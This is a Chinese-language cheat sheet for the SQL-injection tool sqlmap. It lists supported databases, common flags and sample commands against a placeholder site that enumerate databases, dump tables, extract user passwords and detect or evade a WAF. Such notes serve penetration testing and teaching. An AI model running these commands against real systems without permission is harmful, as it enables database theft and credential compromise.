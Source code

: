 # sqlmap精通之路

## sqlmap支持的数据库有

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## sqlmap常用命令

```sqlmap
--data="name=value"         # post 注入
--cookie="id=1"             # cookie 注入
--random-agent              # 随机的HTTP头
--delay 1                   # 发包延迟一秒
-p                          # 指定测试的参数(s)
--dbms                      # 指定数据库
--os                        # 指定操作系统
--tamper                    # 使用脚本来注入数据
--level                     # 测试级别 (1-5, default 1)
--technique                 # 要使用的SQL注入技术
--count                     # 检索表的项数(s)
--eta                       # 显示每个输出的预计到达时间
--flush-session             # 刷新当前目标的会话文件
--mobile                    # 通过HTTP用户代理头模仿智能手机
```

## sqlmap常用语法

```sqlmap
# 获取当前数据库
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --current-db

# 获取当前数据库
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent -D "数据库" --tables

# 获取当前字段
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent -D "数据库" -T "表名" --columns

# 获取当前表数据
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" -D "数据库" -T "表名" -C "字段" --dump --random-agent

# 获取数据库当前用户和密码
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --current-user --passwords --is-dba

# 指定数据库和操作系统
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --dbms='mysql' --os='linux'

# 指定注入方式
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --technique="BEUSTQ"

# 检测waf
python sqlmap.py -u "http://www.xxx.com/en/CompHonorBig.asp?id=7" --random-agent --check-waf --identify-waf
```
